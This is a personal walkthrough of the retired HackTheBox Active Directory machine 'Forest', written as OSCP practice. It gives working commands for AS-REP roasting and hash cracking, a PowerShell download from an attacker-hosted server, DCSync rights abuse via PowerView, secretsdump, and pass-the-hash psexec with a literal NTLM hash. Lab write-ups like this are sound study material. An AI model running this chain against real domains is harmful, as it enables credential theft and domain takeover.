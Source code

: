 # Forest Helped-Through

Name: Forest  
Date: 03/06/2022  
Difficulty: Easy / User Average: Medium  
Description: Retired Staff Pick Active Directory machine  
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.  
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.  

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:
![ping](HackTheBox/Retired-Machines/Forest/Screenshots/ping.png)

`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```

![rpc](Screenshots/rcpenum.png)
![rpc1](Screenshots/rcpenum-one.png)
![rpc2](Screenshots/rcpenum-two.png)

The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```

## Exploit

Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.
![cme-smb-pass-pol](Screenshots/cme-smb-pass-pol.png)
The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```
![svc-cracked](Screenshots/svc-alfresco.png)

Then use the credentials to enumerate smb shares

![cme-share-enum](Screenshots/cme-enum-shares.png)

## Foothold

Then evil-winrm with those credentials onto the machine.

![user](Screenshots/user.png)

Then researched loads of impacket use cases, till I felt like I had a better idea about using it, then learnt how to setup a smb share with impacket-smbserver following along with the video:

```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## PrivEsc

I instead of Bloodhound at first wanted to use [ADAPE](https://github.com/hausec/ADAPE-Script) and [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Also general AD PrivEsc manually to add to me very lack luster Active Directory Privilege Escalation Cheastsheet.  I tried setting up an smbserver but I did not work then went to the trusty

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$ip:$port/powerview.ps1','C:\Users\svc-alfresco\Desktop\powerview.ps1')"
```

ADAPE requires `set-executionpolicy bypass`, which `svc-alfresco` user can't set. I tried I powerview.ps1 and then remember the pain of trying to get sharphound to work in the earlier part of this year to no success so also tried that. 
```bash
ulimit -n 40000 
# THEN
sudo neo4j console
# THEN goto localhost:7474
```
Default credentials
USER: neo4j
PASS: neo4j

```bash
cd /tmp; curl https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip -oL SharpHound.zip

```
Use the same file transfer method as before
```powershell
.\SharpHound.exe -c all
```

```bash
bloodhound --no-sandbox
```
Following along with Ippsec after the agony of SharpHound maddness. I needed to get smbserver to work to transfer host a server. So went back to retry making smbserver. It felt amazing making that finally work. Wow.
Transfered the sharphound output zip file and dragged it into Bloodhound, watch some more Ippsec for how to go where to look - definately need to improve in this respect as to my person maentyal mapping to the groupings and how to fid weak points.

![bh](Screenshots/bloodhound.png)

Basically TL;DR/watch Ippsec explain is that the Account Operators Group can make accounts and svc-alfresco is part of that group and there is the Exchange server connected to it that the Account.
```powershell
net user $user $password /add /domain
net group "Exchange Windows Permissions" /add $user
```
My Bloodhound did not represent the chain to DC from Exchange Windows Permissions group, so I used the `Reachable Highest Value Targets` query here
This is not correct as some weird occured; following along 
![bh3](Screenshots/bh-weird.png)

![bh2](Screenshots/bh-abuse.png)

And the full glory of the Forest Machine and Bloodhound:

![bh4](Screenshots/fullglory.png)

Cool thing I already uploaded powerview! 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
# What Bloodhound suggested, it did not work.
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
# Actual path: get the dev branch of PowerView
# add the the end of the git clone -b dev
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wallace -Rights DCSync
# impacket tool secretsdump
impacket-secretsdump htb/$user:password@ip
crackmapexec smb $ip -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```



